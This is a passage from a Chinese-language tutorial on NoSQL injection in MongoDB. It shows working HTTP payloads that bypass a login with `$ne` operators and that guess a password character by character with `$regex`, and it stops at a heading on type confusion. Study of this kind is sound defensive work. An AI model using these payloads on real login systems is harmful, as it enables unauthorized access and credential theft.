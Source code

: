 ### nosql注入

与传统 SQL 注入不同，NoSQL 注入通常利用的是 **键值对结构**、**对象表示** 或 **特殊运算符**，如 `$ne`, `$gt`, `$regex`, `$where` 等。由于很多 NoSQL 数据库（如 MongoDB）使用 JSON 格式进行查询，当用户输入未被严格校验或过滤时，攻击者可以传入复杂对象或特殊操作符，从而改变原始查询逻辑。

#### 登录认证绕过

原始查询逻辑：

```sql
db.users.findOne({ username: input_username, password: input_password })
```

攻击者提交：

```http
POST /login
username[$ne]=null&password[$ne]=null
```

**其中$ne的含义是不等于**

在解析时，中括号会被解析成一个嵌套对象，即：

```javascript
{
  username: { $ne: null },
  password: { $ne: null }
}
```

- 只要存在任何一个用户满足条件（用户名和密码都不为空），就能登录成功。

#### 正则爆破（盲注）

目标：在没有回显的情况下，枚举敏感字段如密码。

原始查询

```javascript
db.users.findOne({ username: "admin", password: input_password })
```

攻击者提交：

```http
username=admin&password[$regex]=^a
```

**其中$regex用于执行正则表达式匹配**

执行查询：

```javascript
{ username: "admin", password: { $regex: "^a" } }
```

- 如果返回为真，说明密码以 `a` 开头。攻击者可逐字符猜测密码。

#### 类型混淆注入（参数类型注入）
